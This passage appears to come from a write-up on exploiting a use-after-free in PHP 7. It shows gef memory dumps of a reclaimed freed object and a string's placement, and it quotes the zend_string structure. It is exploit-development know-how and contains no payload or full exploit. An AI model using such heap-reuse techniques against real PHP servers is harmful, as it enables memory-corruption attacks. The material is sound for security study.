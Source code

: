 
Our new object (`$helper`) is going to take the location of our `$placeholder` freed, so we can review the memory at that address:

```c
gef➤  x/30g 0x7ffff3e7a150
0x7ffff3e7a150:	0x0000001800000001	0x0000000000000004
0x7ffff3e7a160:	0x00007ffff3e03018	0x00005555567527c0
0x7ffff3e7a170:	0x0000000000000000	0x00007ffff3e55ec0 <--- helper->a
0x7ffff3e7a180:	0x0000000000000006	0x8000065301d853e5
0x7ffff3e7a190:	0x0000000000000001	0x8000065301d853e5
0x7ffff3e7a1a0:	0x0000000000000001	0x8000065301d853e5
0x7ffff3e7a1b0:	0x0000000000000001	0x0000000000000000
0x7ffff3e7a1c0:	0x00007ffff3e7a230	0x0000000000000000
0x7ffff3e7a1d0:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a1e0:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a1f0:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a200:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a210:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a220:	0x0000000000000000	0x0000000000000000
0x7ffff3e7a230:	0x00007ffff3e7a2a0	0x0000000000000000
```

We can see that the property `a` (that is a string) is located at `0x7ffff3e7a178` (0x7ffff3e7a150 + 0x28). We can verify it:

```c
gef➤  x/30g 0x00007ffff3e55ec0
0x7ffff3e55ec0:	0x0000004600000001	0x800000017c8778f1
0x7ffff3e55ed0:	0x0000000000000004	0x000072004b4b4b4b <-- 4b == K
0x7ffff3e55ee0:	0x0000004600000001	0x8000000000597a79
0x7ffff3e55ef0:	0x0000000000000002	0x0000000000007a7a
0x7ffff3e55f00:	0x00007ffff3e555c0	0x00007ffff3e60300
0x7ffff3e55f10:	0x00007ffff3e60360	0x0000555556795a50
0x7ffff3e55f20:	0x00007ffff3e55f40	0x0000000000000000
0x7ffff3e55f30:	0x0000000000000000	0x0000000000000000
0x7ffff3e55f40:	0x00007ffff3e55f60	0x0000000000000000
0x7ffff3e55f50:	0x0000000000000000	0x0000000000000000
0x7ffff3e55f60:	0x00007ffff3e55f80	0x0000000000000000
0x7ffff3e55f70:	0x0000000000000000	0x0000000000000000
0x7ffff3e55f80:	0x00007ffff3e55fa0	0x0000000000000000
0x7ffff3e55f90:	0x0000000000000000	0x0000000000000000
0x7ffff3e55fa0:	0x00007ffff3e55fc0	0x0000000000000000
```

The "KKKK" (4b4b4b4b) string is in that place. In PHP 7 strings are saved inside the structure `zend_string` that is defined as:

```c
struct _zend_string {
    zend_refcounted_h gc;
    zend_ulong h;
    size_t len;
    char val[1]; // NOT A "char *"
};
```
